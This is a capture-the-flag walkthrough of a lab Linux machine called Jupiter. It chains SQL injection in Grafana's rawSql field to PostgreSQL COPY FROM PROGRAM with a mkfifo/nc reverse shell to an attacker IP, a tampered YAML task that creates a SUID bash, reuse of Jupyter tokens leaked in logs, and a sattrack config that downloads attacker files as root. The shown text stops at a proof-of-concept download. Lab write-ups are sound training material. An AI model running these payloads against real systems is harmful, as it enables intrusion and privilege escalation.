<br />


<br />

OS -> Linux.

Difficulty -> Medium.

<br />

# Introduction:

<br />

Hello hackers! Today we’ll tackle the Jupiter Machine, a Medium Difficulty Linux challenge. We’ll start by discovering a subdomain hosting Grafana, where we intercept a SQL query through Burp Suite and exploit it to gain RCE via PostgreSQL. This gives us access as the postgres user. From there, we pivot to juno by modifying a YAML file used in a scheduled task to drop a SUID bash binary. With access to juno, we explore a project directory and find tokens exposing a Jupyter Notebook instance. After port forwarding and logging in, we execute a Python based reverse shell to pivot to jovian. Finally, we exploit a misconfigured config file in a root executable binary (sattrack) to overwrite root’s authorized_keys, allowing SSH access as root and full system compromise.

<br />

# Enumeration:

<br />

We start by running the typical `nmap` scan to see which ports are open:

<br />

```bash
❯ nmap -p- 10.10.11.216 --open --min-rate 5000 -sS -T5 -Pn -n -sCV
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-26 17:54 CET
Nmap scan report for 10.10.11.216
Host is up (0.051s latency).
Not shown: 65512 closed tcp ports (reset), 21 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 ac:5b:be:79:2d:c9:7a:00:ed:9a:e6:2b:2d:0e:9b:32 (ECDSA)
|_  256 60:01:d7:db:92:7b:13:f0:ba:20:c6:c9:00:a7:1b:41 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://jupiter.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.14 seconds
```

<br />

Open Ports:

- `Port 22` -> ssh

- `Port 80` -> http 

<br />

# Http Enumeration: Port -> 80

<br />

When we list the website it redirects to the following url -> `jupiter.htb`, so we proceed to introduce it in our `/etc/hosts`:

<br />

```bash
echo "10.10.11.216 jupiter.htb" >> /etc/hosts 
```

<br />

Refresh the page:

<br />


<br />

It is a fairly `static` page without interesting `functionalities`.

But when we look for `subdomains` with ffuf, find the following:

<br />

```bash
❯ ffuf -u http://jupiter.htb -H "Host: FUZZ.jupiter.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -c -t 20 -fs 178

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://jupiter.htb
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
 :: Header           : Host: FUZZ.jupiter.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 20
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 178
________________________________________________

kiosk                   [Status: 200, Size: 34390, Words: 2150, Lines: 212, Duration: 72ms]
:: Progress: [4989/4989] :: Job [1/1] :: 398 req/sec :: Duration: [0:00:13] :: Errors: 0 ::
```

<br />

Perfect! Let's add it to `/etc/hosts`:

<br />

```bash
10.10.11.216 jupiter.htb kiosk.jupiter.htb
```

<br />

## kiosk.jupiter.htb 

<br />

The website has different information about `"moons"`:

<br />


<br />

If we pay a little attention, we can see the `Grafana` icon in the upper left corner.

And by clicking in the help button we check the `version` in use:

<br />


<br />

But this `version` doesn't has any critical `vulnerability` to exploit.

<br />

## Burp Suite Web Crawling:

<br />


<br />

As we know, `Burp Suite` automatically performs some web `crawling` when we navigate through a website.

If we analyze the `HTTP` requests History made to `Grafana`, we find one that is more interesting than the others.

<br />

POST - `/api/ds/query`



<br />

The `json's` body looks like this:

<br />

```json
{
  "queries": [
    {
      "refId": "A",
      "datasource": {
        "type": "postgres",
        "uid": "YItSLg-Vz"
      },
      "rawSql": "select \n  name as \"Name\", \n  parent as \"Parent Planet\", \n  meaning as \"Name Meaning\" \nfrom \n  moons \nwhere \n  parent = 'Saturn' \norder by \n  name desc;",
      "format": "table",
      "datasourceId": 1,
      "intervalMs": 60000,
      "maxDataPoints": 819
    }
  ],
  "range": {
    "from": "2025-03-26T11:52:56.567Z",
    "to": "2025-03-26T17:52:56.567Z",
    "raw": {
      "from": "now-6h",
      "to": "now"
    }
  },
  "from": "1742989976567",
  "to": "1743011576567"
}
```

<br />

As we can see, it is a `POST` request with a `postgresql` query.

Knowing the `database` type and identifying the `"rawSql"` field, we can try to tamper with it and inject a `query`:

<br />

```sql
SELECT version();
```



<br />

The `server` has no validation over whether database queries can be `manipulated`.

<br />

## PostgreSQL RCE:

<br />

There’s a very interesting way to turn a `SQL` Injection in PostgreSQL into an `RCE`. To do this, we’ll rely on the excellent repository [Payloads All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md), which has a section that talks about this.

<br />



<br />

To do it we only need to send three `requests`.

1.- Verifying `RCE` with COPY TO PROGRAM:

<br />

```sql 
COPY (SELECT '') to PROGRAM 'nslookup BURP-COLLABORATOR-SUBDOMAIN'
```



<br />

2.- Preparing the environment for `RCE`:

<br />

```sql 
CREATE TABLE shell(output text);
```



<br />

3.- Executing the `Reverse Shell`:

<br />

```sql 
COPY shell FROM PROGRAM 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.28 443 >/tmp/f';
```



<br />

Check the `listener` and... yes!!

<br />

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.28] from (UNKNOWN) [10.10.11.216] 35434
/bin/sh: 0: can't access tty; job control turned off
$ id    
uid=114(postgres) gid=120(postgres) groups=120(postgres),119(ssl-cert)
```

<br />

# Privilege Escalation: postgres -> juno

<br />

In `/home` there are two `user` paths, but we can't enter anyone of them:

<br />

```bash
postgres@jupiter:/home$ ls
jovian	juno
postgres@jupiter:/home$ cd juno/
-bash: cd: juno/: Permission denied
postgres@jupiter:/home$ cd jovian/
-bash: cd: jovian/: Permission denied
postgres@jupiter:/home$
```

<br />

After some time enumerating the system, we find somes files in the `/dev/shm` directory:

<br />

```bash
postgres@jupiter:/dev/shm$ ls
PostgreSQL.2297639024  network-simulation.yml  shadow.data
```

<br />

The file `network-simulation.yml` immediately draws attention. `YAML` files are commonly used for configuration, but in many cases they’re also part of automated scheduled tasks for example, as input to `crontabs` or simulation jobs.

To check it, we run `pspy64`:

<br />

```bash
postgres@jupiter:/tmp$ ./pspy64 
pspy - version: v1.2.1 - Commit SHA: f9e6a1590a4312b9faa093d8dc84e19567977a6d


     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒ 
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░ 
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░  
                   ░           ░ ░     
                               ░ ░     

Config: Printing events (colored=true): processes=true | file-system-events=false ||| Scanning for processes every 100ms and on inotify events ||| Watching directories: [/usr /tmp /etc /home /var /opt] (recursive) | [] (non-recursive)
Draining file system events due to startup...

2025/03/26 19:40:01 CMD: UID=1000  PID=4355   | /home/juno/.local/bin/shadow /dev/shm/network-simulation.yml
```

<br />

User `juno` is executing the `YAML` file at time intervals on the system.

This means that if we are able to `exploit` it, we can `pivote` to this user.

Let's see what is doing the script:

<br />

```yml 
general:
  # stop after 10 simulated seconds
  stop_time: 10s
  # old versions of cURL use a busy loop, so to avoid spinning in this busy
  # loop indefinitely, we add a system call latency to advance the simulated
  # time when running non-blocking system calls
  model_unblocked_syscall_latency: true

network:
  graph:
    # use a built-in network graph containing
    # a single vertex with a bandwidth of 1 Gbit
    type: 1_gbit_switch

hosts:
  # a host with the hostname 'server'
  server:
    network_node_id: 0
    processes:
    - path: /usr/bin/python3
      args: -m http.server 80
      start_time: 3s
  # three hosts with hostnames 'client1', 'client2', and 'client3'
  client:
    network_node_id: 0
    quantity: 3
    processes:
    - path: /usr/bin/curl
      args: -s server
      start_time: 5s
```

<br />

A simple network is simulated with a 1 `Gbit` switch, through which three `clients` access an HTTP `server` hosted with Python on port 80.

<br />

## Malicious YAML file:

<br />

To exploit this task, we are going to `modify` the commands being executed so that the user `juno` makes a copy of `/bin/bash` and assigns it SUID privileges.

This way, we can execute this copied bash with `SUID` permissions , allowing us to run a bash shell as juno.

<br />

```yml
general:
  # stop after 10 simulated seconds
  stop_time: 10s
  # old versions of cURL use a busy loop, so to avoid spinning in this busy
  # loop indefinitely, we add a system call latency to advance the simulated
  # time when running non-blocking system calls
  model_unblocked_syscall_latency: true

network:
  graph:
    # use a built-in network graph containing
    # a single vertex with a bandwidth of 1 Gbit
    type: 1_gbit_switch

hosts:
  # a host with the hostname 'server'
  server:
    network_node_id: 0
    processes:
    - path: /usr/bin/cp
      args: /bin/bash /tmp/malicious_bash
      start_time: 3s
  # three hosts with hostnames 'client1', 'client2', and 'client3'
  client:
    network_node_id: 0
    quantity: 3
    processes:
    - path: /usr/bin/chmod
      args: 6755 /tmp/malicious_bash
      start_time: 5s
```

<br />

We wait to the task for run and go to `/tmp` to execute the malicious bash:

<br />

```bash
postgres@jupiter:/tmp$ ls -l malicious_bash 
-rwsr-sr-x 1 juno juno 1396520 Mar 27 19:50 malicious_bash
postgres@jupiter:/tmp$ ./malicious_bash -p
malicious_bash-5.1$ id
uid=114(postgres) gid=120(postgres) euid=1000(juno) egid=1000(juno) groups=1000(juno),119(ssl-cert),120(postgres)
```

<br />

And get the `user.txt` flag:

<br />

```bash
malicious_bash-5.1$ cd /home/juno
malicious_bash-5.1$ cat user.txt
e728ef41fc4b13b75da02117e6xxxxxx
```

<br />

To `upgrade` the shell, we copy the `authorized_keys` of our machine and put it in the `.ssh` directory of juno to connect via ssh withouth giving a password:

<br />

```bash
❯ ssh -i id_rsa juno@10.10.11.216
Welcome to Ubuntu 22.04.2 LTS (GNU/Linux 5.15.0-72-generic x86_64)
...[snif]...
juno@jupiter:~$ id
uid=1000(juno) gid=1000(juno) groups=1000(juno),1001(science)
```

<br />

Now we have the science group.

<br />

# Privilege Escalation: juno -> jovian

<br />

We continue enumerating the system:

<br />

```bash
juno@jupiter:/opt$ ls -l
total 4
drwxrwx--- 4 jovian science 4096 May  4  2023 solar-flares
```

<br />

There is `solar-flares` directory in /opt.

And we can access it because we are in the `science` group, let's take a look:

<br />

```bash
juno@jupiter:/opt/solar-flares$ ls -l
total 2596
-rw-rw---- 1 jovian science  646164 Mar  8  2023 cflares.csv
-rw-rw---- 1 jovian science  708058 Mar  8  2023 flares.csv
-rw-rw---- 1 jovian science   10230 Mar  8  2023 flares.html
-rw-r----- 1 jovian science  234001 Mar  8  2023 flares.ipynb
drwxrwxr-t 2 jovian science    4096 Mar 27 19:23 logs
-rw-rw---- 1 jovian science 1010424 Mar  8  2023 map.jpg
-rw-rw---- 1 jovian science   26651 Mar  8  2023 mflares.csv
-rwxr-xr-x 1 jovian science     147 Mar  8  2023 start.sh
-rw-rw---- 1 jovian science    1992 Mar  8  2023 xflares.csv
```

<br />

Looking deeper in this files, we found something in the `logs` directory.

A lot of log files with `tokens` and with the same URL -> `localhost:8888`

<br />

``` bash
juno@jupiter:/opt/solar-flares/logs$ cat jupyter-2023-03-08-14.log 
[W 13:14:40.718 NotebookApp] Terminals not available (error was No module named 'terminado')
[I 13:14:40.727 NotebookApp] Serving notebooks from local directory: /opt/solar-flares
[I 13:14:40.727 NotebookApp] Jupyter Notebook 6.5.3 is running at:
[I 13:14:40.727 NotebookApp] http://localhost:8888/?token=b8055b937eeb17431b3f00dfc5159ba909012d86be120b60
[I 13:14:40.727 NotebookApp]  or http://127.0.0.1:8888/?token=b8055b937eeb17431b3f00dfc5159ba909012d86be120b60
[I 13:14:40.727 NotebookApp] Use Control-C to stop this server and shut down all kernels (twice to skip confirmation).
...[snip]...
```

<br />

So we check with `netstat` if there is any `service` running on this port:

<br />

```bash
juno@jupiter:/opt/solar-flares/logs$ netstat -nat | grep 8888
tcp        0      0 127.0.0.1:8888          0.0.0.0:*               LISTEN
```

<br />

It seems that yes, but this is an `internal` service that it's running the victim machine.

This means that if we want to access it in our browser, we need to do a `port forwarding`:

<br />

```bash
❯ ssh -i id_rsa juno@10.10.11.216 -L 8888:127.0.0.1:8888
Warning: Identity file id_rsa not accessible: No such file or directory.
Welcome to Ubuntu 22.04.2 LTS (GNU/Linux 5.15.0-72-generic x86_64)
...[snip]...
Last login: Thu Mar 27 19:57:04 2025 from 10.10.14.31
juno@jupiter:~$
```

<br />

This `SSH` oneliner forwards the service running on port 8888 of the victim machine to our `local` port 8888

Now we can visit `http://localhost:8888`:

<br />



<br />

 Apparently, we are dealing with the `Jupyter Notebook` program.

<br />

## Jupyter Notebook Exploitation:

<br />



<br />

This application needs a `token` to log in.

Testing all the tokens that we see before in the `logs` directory, found a valid one:

<br />



<br />

Once in the program, it's really easy to exploit it, because we can run `Python` code creating a file.

To do it, we click on `"New"` and then `"Python 3 (ipykernel)"`.

<br />



<br />

Finally, we can validate the `command execution` by writing a simply code like this and clicking on `"Run"`:

<br />



<br />

Perfect! We are executing commands as `jovian`, so we will also gain access as that user. 

To do it we are going to run a `reverse shell`:

<br />



<br />

Check the listener:

<br />

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.31] from (UNKNOWN) [10.10.11.216] 59648
bash: cannot set terminal process group (3075): Inappropriate ioctl for device
bash: no job control in this shell
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

jovian@jupiter:/opt/solar-flares$ id
uid=1001(jovian) gid=1002(jovian) groups=1002(jovian),27(sudo),1001(science)
```

<br />

# Privilege Escalation: jovian -> root

<br />

Check jovian `sudoers` privileges:

<br />

```bash
jovian@jupiter:/opt/solar-flares$ sudo -l
Matching Defaults entries for jovian on jupiter:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User jovian may run the following commands on jupiter:
    (ALL) NOPASSWD: /usr/local/bin/sattrack
```

<br />

He can runs `"sattrack"` as `root` without enter a password.

But when we try to run it:

<br />

```bash
jovian@jupiter:/opt/solar-flares$ sudo /usr/local/bin/sattrack
Satellite Tracking System
Configuration file has not been found. Please try again!
```

<br />

It looks like we need a `config` file.

So let's try to search `sattrack` path to find this file:

<br />

```bash
jovian@jupiter:/opt/solar-flares$ find / -name "sattrack" -type d 2>/dev/null
/usr/local/share/sattrack
```

<br />

Go to the path and list:

<br />

```bash
jovian@jupiter:/usr/local/share/sattrack$ ls
config.json  earth.png  map.json
```

<br />

### config.json:

<br />

This is really strange.

Because when we run the program, it says that there isn’t a `config` file but in reality, there actually is one.

So, to check what's going on, we run the binary again using strace:

<br />

```bash
jovian@jupiter:/usr/local/share/sattrack$ strace /usr/local/bin/sattrack 
execve("/usr/local/bin/sattrack", ["/usr/local/bin/sattrack"], 0x7ffefaa78f10 /* 21 vars */) = 0
...[snip]...
newfstatat(AT_FDCWD, "/tmp/config.json", 0x7ffeb8dab220, 0) = -1 ENOENT (No such file or directory)
write(1, "Configuration file has not been "..., 57Configuration file has not been found. Please try again!
) = 57
getpid()                                = 3826
exit_group(1)                           = ?
+++ exited with 1 +++
```

<br />

As we can see, the program is searching on /tmp the `"config.json"` file that we have seen in the `sattrack` directory.

We move this config file to `/tmp` and run the program again:

<br />

```bash
jovian@jupiter:/usr/local/share/sattrack$ cp config.json /tmp
jovian@jupiter:/usr/local/share/sattrack$ sudo /usr/local/bin/sattrack 
Satellite Tracking System
tleroot does not exist, creating it: /tmp/tle/
Get:0 http://celestrak.org/NORAD/elements/weather.txt
```

<br />

GG! Now we can run it without any problem.

We can `analyze` the configuration file to `understand` its structure.

<br />

```json
{
	"tleroot": "/tmp/tle/",
	"tlefile": "weather.txt",
	"mapfile": "/usr/local/share/sattrack/map.json",
	"texturefile": "/usr/local/share/sattrack/earth.png",
	
	"tlesources": [
		"http://celestrak.org/NORAD/elements/weather.txt",
		"http://celestrak.org/NORAD/elements/noaa.txt",
		"http://celestrak.org/NORAD/elements/gp.php?GROUP=starlink&FORMAT=tle"
	],
	
	"updatePerdiod": 1000,
	
	"station": {
		"name": "LORCA",
		"lat": 37.6725,
		"lon": -1.5863,
		"hgt": 335.0
	},
	
	"show": [
	],
	
	"columns": [
		"name",
		"azel",
		"dis",
		"geo",
		"tab",
		"pos",
		"vel"
	]
}
```

<br />


There are two key components in this program:

`tleroot` – the path where the program stores the content.

`tlesources` – the files that are downloaded and placed into the tleroot path.

<br />

### Malicious config.json:

<br />

To test this, we are going to host a `"poc.txt"` file in a python server of our attacker machine, and and try to put into the `/tmp` path manipulating the `"config.json"` file:

<br />

```bash
❯ echo "Testing a way to exploit this program" > poc.txt
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

<br />

Config file manipulated:

<br />

```json
{
	"tleroot": "/tmp/",
	"tlefile": "weather.txt",
	"mapfile": "/usr/local/share/sattrack/map.json",
	"texturefile": "/usr/local/share/sattrack/earth.png",
	
	"tlesources": [
		"http://10.10.14.31/poc.txt"
],
	
	"updatePerdiod": 1000,
	
	"station": {
		"name": "LORCA",
		"lat": 37.6725,
		"lon": -1.5863,
		"hgt": 335.0
	},
	
	"show": [
	],
	
	"columns": [
		"name",
		"azel",
		"dis",
		"geo",
		"tab",
		"pos",
		"vel"
	]
}
```

<br />

Run the program and...

<br />

```bash
jovian@jupiter:/usr/local/share/sattrack$ sudo /usr/local/bin/sattrack
Satellite Tracking System
Get:0 http://10.10.14.31/poc.txt
tlefile is not a valid file
jovian@jupiter:/usr/local/share/sattrack$ ls -l /tmp/poc.txt
-rw-r--r-- 1 root root 38 Mar 27 21:41 /tmp/poc.txt
jovian@jupiter:/usr/local/share/sattrack$ cat /tmp/poc.txt 
Testing a way to exploit this program
```

<br />

We receive a GET:

<br />

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.216 - - [27/Mar/2025 22:41:00] "GET /poc.txt HTTP/1.1" 200 -
```

<br />

Check the file:

<br />

```bash
jovian@jupiter:/usr/local/share/sattrack$ ls -l /tmp/poc.txt
-rw-r--r-- 1 root root 38 Mar 27 21:41 /tmp/poc.txt
jovian@jupiter:/usr/local/share/sattrack$ cat /tmp/poc.txt 
Testing a way to exploit this program
```

<br />

